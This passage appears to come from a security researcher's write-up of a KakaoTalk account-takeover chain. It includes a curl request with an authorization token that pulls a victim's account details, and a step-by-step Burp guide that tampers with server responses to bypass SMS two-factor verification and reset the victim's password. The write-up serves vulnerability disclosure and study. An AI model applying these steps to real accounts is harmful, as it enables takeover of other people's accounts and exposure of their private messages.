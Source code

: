 When creating a new email address tick the box `Set As Primary Email`.

## KakaoTalk Password Reset with Burp

Since we could now access the victim's Kakao Mail account a password reset was the next logical step. The only additional information required were the victim's email address, nickname and phone number which we got with the same curl query that we used above:

```bash
curl -i -s -k -X $'GET' \
    -H $'Host: katalk.kakao.com' -H $'Accept-Language: en' -H $'User-Agent: KT/10.4.3 An/11 en' -H $'Authorization: 64f03846070b4a9ea8d8798ce14220ce00000017017793161400011gzCIqV_7kN-deea3b5dc9cddb9d8345d95438207fc0981c2de80188082d9f6a8849db8ea92e' -H $'A: android/9.5.0/en' -H $'C: a327a1ad-b417-499a-abf7-48da89076e7c' -H $'Accept-Encoding: json, deflate, br' -H $'Connection: close' \
    $'https://katalk.kakao.com/android/account/more_settings.json?os_version=30&model=SDK_GPHONE_ARM64&since=1693786891&lang=en&vc=2610380&email=2&adid=&adid_status=-1'
```

Changing the password via `https://accounts.kakao.com` turned out to be a bit complicated as we had to bypass 2FA via SMS. However, it was as simple as intercepting and modifying a couple of requests with Burp. This is how you can do it:

1. Using the Burp browser visit the [Reset Password](https://accounts.kakao.com/weblogin/find_password?lang=en&continue=%2Flogin%3Fcontinue%3Dhttps%253A%252F%252Faccounts.kakao.com%252Fweblogin%252Faccount%252Finfo) link.
2. Add the victim's email address on the next page (`Reset password for your Kakao Account`). Before clicking on `Next`, enable the `Intercept` feature in Burp.
3. In Burp, forward all requests until you see a POST request to `/kakao_accounts/check_verify_type_for_find_password.json`. Right-click and select `Do intercept > Response to this request`.
4. In the response change `verify_types` to `0` (this sends the verification code to the victim's email address and not to her/his phone):
```json
{
  "status": 0,
  "verify_types": [
    0
  ],
  "suspended": false,
  "dormant": false,
  "kakaotalk": false,
  "expired": false,
  "created_at": 1700754321,
  "two_step_verification": false,
  "is_fill_in_email": false,
  "account_type": 0,
  "display_id": null
}
```
5. Disable `Intercept` in Burp and go back to Burp's browser. Click on `Using email address`.
6. Enter the victim's nickname and email address on the next page and click the `Verify` button.
7. Open a new browser tab and paste the Burp Repeater URL to access the user's Kakao Mail account (as described in the [previous](#deep-link-to-kakao-mail-account-takeover) section). If there's a message "session expired" just clear the browser's cache.
8. Grab the verification code from the email and enter it to proceed to the next page.
9. On the page `Additional user verification will proceed to protect your Kakao Account.`, enable `Intercept` in Burp again, enter some values and click `Confirm`. Back in Burp when you see a POST request to `/kakao_accounts/check_phone_number.json`, adjust the `iso_code` and `phone_number` (without country code) parameters in the request body. Forward the request and disable the `Intercept` option again.
10. Finally, you can enter the new password.

